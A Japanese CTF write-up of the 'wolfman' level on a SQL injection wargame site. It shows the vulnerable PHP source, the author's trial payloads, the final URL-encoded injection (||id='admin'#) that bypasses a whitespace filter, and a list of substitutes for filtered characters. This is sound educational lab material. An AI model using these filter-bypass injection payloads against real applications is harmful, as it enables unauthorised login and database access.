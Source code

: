 # wolfman

## answer

```
https://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw=%27%7C%7Cid%3D%27admin%27%23
```

## problem

```
query : select id from prob_wolfman where id='guest' and pw=''

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```

## memo

試しに、

```
https://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw=aaa
```

とすると

```
query : select id from prob_wolfman where id='guest' and pw='aaa'
```

となった。

コードを読んでいく。

```
if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~");
```

whitespaceフィルターだ。
半角スペースはタブ文字`\t`か`\**\`で回避するのがセオリーなのはたまたま知っていた（やったことない）ので、
さっそくためしてみる。

```
?pw='\tor\tid='admin'#
```

```
?pw='\**\or\**\id='admin'#  
```

上手くいかんな、、、

orの代わりに||を使ってみる作戦でいくか

```
?pw='||id='admin'#
```

行けない。

url encodeしてみる。

```
?pw='%7C%7Cid%3D'admin'%23
```

できた。

原因は`#`をurl encodeするかどうかだった。

## supplementary

いろんな文字がフィルターされたときの代替文字（CTF界伝説のサイト、[こちら](https://graneed.hatenablog.com/entry/2018/10/26/232304)を参照）

- ' : "
- = : STRCMPとis not TRUE
- admin : "admi" "n" を文字列結合

## references

- [preg_match | php manual](https://www.php.net/manual/ja/function.preg-match.php)

- [mysql_fetch_array | php manual](https://www.php.net/manual/ja/function.mysql-fetch-array.php)

- [mysql_query | php manual](https://www.php.net/manual/ja/function.mysql-query.php)

- [BSides Delhi CTF 2018 Write up | こんとろーるしーこんとろーるぶい](https://graneed.hatenablog.com/entry/2018/10/26/232304)

- [highlight_file | php manual](https://www.php.net/manual/ja/function.highlight-file.php)